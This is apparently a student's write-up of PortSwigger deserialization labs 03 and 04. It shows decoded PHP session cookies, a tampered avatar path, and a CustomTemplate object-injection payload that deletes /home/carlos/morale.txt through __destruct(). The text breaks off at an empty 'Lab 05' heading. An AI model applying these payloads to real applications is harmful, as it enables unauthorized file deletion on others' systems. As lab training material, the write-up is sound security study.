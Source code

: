 


### Lab 03: Using application functionality to exploit insecure deserialization
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization)

[Insecure deserialization](https://portswigger.net/web-security/deserialization)

Lab description:
```
This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.
You can log in to your own account using the following credentials: wiener:peter
You also have access to a backup account: gregg:rosebud
```

![](imgs/2023-10-26-11-00-50.png)

I uploaded an image as avatar to the server. The cookie now contains the image path
```
Value:
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2ZWtwODNzeDFnamhpYTMyaGNhaWduOHB6cDlheTJ0NCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
B64Decode:
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vekp83sx1gjhia32hcaign8pzp9ay2t4";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

So i tried to change the avatar path to something :v
```
Value: 
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vekp83sx1gjhia32hcaign8pzp9ay2t4";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
Cookie:
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2ZWtwODNzeDFnamhpYTMyaGNhaWduOHB6cDlheTJ0NCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
```

And now i need to remove the wiener account inorder to remove the wiener avatar (/home/carlos/morale.txt) ? 

![](imgs/2023-10-26-11-13-18.png)

### Lab 04: Arbitrary object injection in PHP
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php)

Cookie:
```
Value:
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJkZGVvbjV0NW80OGp3MGluaXl6aGwwbjlvMzA2czc4YiI7fQ%3d%3d
B64Decode:
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ddeon5t5o48jw0iniyzhl0n9o306s78b";}
```

Maybe this is a hint...
![](imgs/2023-10-26-11-18-53.png)

Try to get /libs/CustomTemplate.php but its empty. However, I scan all possible backup files and found it:
![](imgs/2023-10-26-12-24-59.png)
![](imgs/2023-10-26-11-31-45.png)

/libs/CustomTemplate.php~ (This is the backup file generated by vi)
```

<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

The __destruct() method is called when the object is destroyed. It checks if the lock file exists and deletes it if it does.
-> That is the point we want

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D
```

![](imgs/2023-10-26-13-03-14.png)

### Lab 05: 